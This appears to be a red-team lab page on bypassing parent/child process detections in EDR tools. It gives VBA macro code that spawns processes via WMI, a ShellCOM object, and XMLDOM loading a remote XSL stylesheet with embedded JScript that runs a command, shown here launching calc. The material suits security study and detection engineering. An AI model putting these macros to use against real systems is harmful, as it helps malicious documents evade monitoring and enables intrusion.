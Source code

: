 # Bypassing Parent Child / Ancestry Detections

Defenders often will look engineer detections based on parent/child process relationships - i.e Excel spawns powershel - suspicious.

This lab is mostly based on the techniques discussed on [https://www.countercept.com/blog/dechaining-macros-and-evading-edr/](https://www.countercept.com/blog/dechaining-macros-and-evading-edr/)

Below are some techniques showing how those type of detections could be bypassed. 

## Spawning via WmiPrvse.exe using wmi

{% code-tabs %}
{% code-tabs-item title="macro.vba" %}
```javascript
Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
errReturn = objProcess.Create("calc", Null, objConfig, intProcessID)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../../.gitbook/assets/screenshot-from-2019-04-10-22-11-41.png)

## Spawning via ShellCOM

{% code-tabs %}
{% code-tabs-item title="macro.vba" %}
```csharp
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "calc",Null,"C:\\Windows\\System32",Null,0
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Spawning via svchost.exe using XMLDOM

{% code-tabs %}
{% code-tabs-item title="xmldom.vba" %}
```csharp
Set xml = CreateObject("Microsoft.XMLDOM")
xml.async = False
Set xsl = xml
xsl.load("file://|http://bad.xsl")
xml.transformNode xsl
```
{% endcode-tabs-item %}

{% code-tabs-item title="bad.xsl" %}
```markup
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```
{% endcode-tabs-item %}